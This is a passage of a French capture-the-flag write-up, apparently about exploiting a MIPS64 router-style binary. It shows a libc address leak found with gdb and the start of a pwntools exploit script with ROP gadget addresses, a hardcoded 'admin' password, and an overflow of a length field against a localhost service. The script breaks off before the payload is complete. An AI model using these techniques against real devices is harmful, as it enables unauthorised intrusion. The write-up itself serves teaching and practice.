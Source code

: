 On regarde sur nos addresses leak celles qui peuvent correspondre

````txt
66: b'0x555555d55ef8'
67: b'0x5097c3a08fc64300'
68: b'0x555555fc97c0'
69: b'0x555555e0ad48'
70: b'0x555555d9f010'
71: b'0x555555d9f010'
````

````shell
gdb-peda$ x/5x 0x555555e0ad48
0x555555e0ad48 <__libc_start_main+200>: 0xdf97b0d8      0xdef20000      0xde4200a0      0x10400007
0x555555e0ad58 <__libc_start_main+216>: 0x02803025
````

L'offset 69 correspond à ``__libc_start_main+200`` !

## Exploit 

On a maintenant tout en main pour écrire le script et flag !

L'exploit en python 

````python
from pwn import *
context.update(arch='mips64', os='linux', word_size=64, endian='little')

target = remote("localhost", 1337)

# ADDR gadget

# move $t9, $s1 ; jalr $t9 ; nop

jmp_s1 = 0x00000000000bde04

# move $t9, $s0 ; jalr $t9 ; ld $a0, 0x38($sp)

move_t9_s0_ld_a0_0x38 = 0x00000000000606b8

# ld $ra, 0x18($sp) ; ld $s1, 8($sp) ; ld $s0, ($sp) ; jr $ra ; daddiu $sp, $sp, 0x20

ra_ld_s0_s1_jmp_ra = 0x000000000009a900

elf = context.binary = ELF('vuln')
libc = ELF('libc.so.6')

# Select admin menu
print(target.recvuntil(b"#>"))
buf = b'5'
target.sendline(buf)

# Enter pwd
print(target.recvuntil(b"#>"))
buf = b'admin'
target.sendline(buf)

# Select Change Wifi Key
print(target.recvuntil(b"#>"))
buf = b'2'
target.sendline(buf)

# Enter pwd and overflow the len fields
print(target.recvuntil(b"#>"))
buf = b'1' * 24
target.sendline(buf)
````